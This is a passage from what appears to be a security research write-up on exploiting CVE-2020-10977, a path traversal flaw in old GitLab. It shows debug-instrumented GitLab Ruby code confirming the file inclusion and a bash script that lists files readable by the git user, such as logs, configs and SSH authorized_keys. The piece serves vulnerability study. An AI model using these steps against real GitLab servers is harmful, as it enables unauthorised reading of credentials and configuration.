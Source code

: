 As expected only `/tmp/passwd2` will be successfully processed by `with_link_in_tmp_dir` function.

To make sure that path traversal really works I will add a couple of debug statements to `uploads_rewriter.rb` and run scenario 1 and 3 live. 

```ruby
...
56:       def with_link_in_tmp_dir(file)
57:         File.write('/tmp/gitlab.log', "1. #{file}\n", mode: 'a')             # <=== DEBUG
58:         dir = Dir.mktmpdir('UploadsRewriter', File.dirname(file))
59:         File.write('/tmp/gitlab.log', "2. #{dir}\n", mode: 'a')              # <=== DEBUG
60:         # The filename matters to Carrierwave so we make sure to preserve it
61:         tmp_file = File.join(dir, File.basename(file))
62:         File.write('/tmp/gitlab.log', "3. #{tmp_file}\n", mode: 'a')         # <=== DEBUG
63:         File.link(file, tmp_file)
64:         # Open the file to placate Carrierwave
65:         File.open(tmp_file) { |open_file| yield open_file }
66:       ensure
67:         FileUtils.rm_rf(dir)
68:       end
69:     end
70:   end
71: end

# Run "gitlab-ctl reconfigure && gitlab-ctl restart" for the changes to take affect
```

In the GIF below (clickable) I try to include `/etc/passwd` (which obviously fails) and then I successfully include `/tmp/passwd2`. Debug output is read from `/tmp/gitlab.log`.

[![gitlab-lfi-demo.gif](/assets/images/exploiting-cve-2020-10977-on-old-gitlab-ce-ee/gitlab-lfi-demo.gif)](/assets/images/exploiting-cve-2020-10977-on-old-gitlab-ce-ee/gitlab-lfi-demo.gif)

## Locate All the git Accessible Files

Let's find all files that can potentially be read via CVE-2020-10977 excluding git repository files in `/var/opt/gitlab/git-data/repositories`. Run it as `git` user:

```bash
#!/usr/bin/env bash

for file in `find / -type f -readable -writable 2>/dev/null | grep -v -e proc -e repositories`; do
  dname=`dirname $file`
  owner=`stat -c'%U' $dname`
    if [ $owner = "git" ]; then
      echo $file
  fi
done

# /var/log/gitlab/gitlab-rails/production_json.log
# /var/log/gitlab/gitlab-rails/production.log
# /var/log/gitlab/gitlab-rails/application.log
# /var/log/gitlab/gitlab-shell/gitlab-shell.log
# /var/log/gitlab/unicorn/unicorn_stdout.log
# /var/log/gitlab/unicorn/unicorn_stderr.log
# /var/opt/gitlab/gitlab-monitor/gitlab-monitor.yml
# /var/opt/gitlab/gitlab-workhorse/config.toml
# /var/opt/gitlab/.ssh/authorized_keys
# /opt/gitlab/var/unicorn/unicorn.pid
```
